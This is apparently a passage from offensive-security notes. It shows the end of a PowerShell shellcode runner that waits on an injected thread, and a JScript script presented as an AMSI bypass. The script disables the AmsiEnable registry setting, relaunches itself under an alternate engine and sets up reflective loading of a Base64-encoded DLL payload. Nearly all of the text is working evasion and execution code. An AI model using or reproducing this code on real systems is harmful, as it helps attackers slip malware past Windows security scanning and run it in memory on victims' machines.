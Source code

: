 ```powershell
            [IntPtr]::Zero,
            0,
            $lpMem,
            [IntPtr]::Zero,
            0,
            [IntPtr]::Zero
    )

# Call WaitForSingleObject to wait until thread exits
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
    (Find-Func -ModuleName "kernel32.dll" -FunctionName "WaitForSingleObject"),
    (Get-DelegateType `
        -FunctionParameters @([IntPtr], [Int32]) `
        -FunctionReturnType ([Int]))).Invoke(
            $hThread,
            0xffffffff
    )
```

## Bypassing AMSI in Jscript

The following Jscript script bypasses AMSI and reflectively loads a Base64
encoded DLL payload into process memory, invoking **Pwn.Kernel32** method from
the DLL to gain code execution:

```javascript
var sh = new ActiveXObject("WScript.Shell");
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
  var ae = sh.RegRead(key);
  if (ae != 0) {
    throw new Error(1, "");
  }
} catch (e) {
  sh.RegWrite(key, 0, "REG_DWORD");
  sh.Run(
    "cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} " +
      WScript.ScriptFullName,
    0,
    1,
  );
  sh.RegWrite(key, 1, "REG_DWORD");
  WScript.Quit(1);
}
function setversion() {
  new ActiveXObject("WScript.Shell").Environment("Process")("COMPLUS_Version") = "v4.0.30319";
}
function debug(s) {}
function base64ToStream(b) {
  var enc = new ActiveXObject("System.Text.ASCIIEncoding");
  var length = enc.GetByteCount_2(b);
  var ba = enc.GetBytes_4(b);
  var transform = new ActiveXObject(
    "System.Security.Cryptography.FromBase64Transform",
  );
  ba = transform.TransformFinalBlock(ba, 0, length);
  var ms = new ActiveXObject("System.IO.MemoryStream");
  ms.Write(ba, 0, (length / 4) * 3);
  ms.Position = 0;
  return ms;
}

var serialized_obj = ${INSERT_BASE64_ENCODED_DLL_PAYLOAD};
```